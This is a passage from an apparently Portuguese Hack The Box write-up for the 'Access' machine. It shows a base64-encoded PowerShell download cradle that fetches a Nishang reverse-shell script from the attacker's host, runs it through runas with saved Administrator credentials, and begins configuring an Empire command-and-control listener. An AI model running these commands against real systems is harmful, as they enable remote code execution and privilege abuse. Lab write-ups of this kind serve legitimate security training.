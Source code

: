 *echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.119/Invoke-PowerShellTcp.ps1')" | iconv --to-code UTF-16LE | base64 -w 0*

> SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADEAMQA5AC8ASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAFQAYwBwAC4AcABzADEAJwApAA==

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_lnk3.png)

Agora executamos como `runas` (lembrar de arrumar o nishang, ligar o python web server e o rlwrap nc)

> runas /user:ACCESS\Administrator /savecred "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADEAMQA5AC8ASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAFQAYwBwAC4AcABzADEAJwApAA=="

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_lnk4.png)

### Pegamos flag de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_user.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_root.png)

# Utilizando Empire

Agora como algo a mais a ser feito nessa máquina, vamos realizar a exploração pelo Empire, que é um Módulo de Pós-Exploração muito bom, nos trás muitas possibilidades, é um servidor de comando e controle muito completo para exploração Windows

> https://github.com/BC-SECURITY/Empire

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_emp.png)

Primeiro passo após instalar ele é abrir o executável do empire na pasta dele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_emp1.png)

Agora é setar o listener que será utilizado

```
uselistener http
set Host http://10.10.16.119:5555
set BindIP 10.10.16.119
set Port 5555
execute
```

Setamos para porta 5555 no meu IP da minha Kali

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-access/A_emp2.png)

Agora fazemos o powershell que será executado
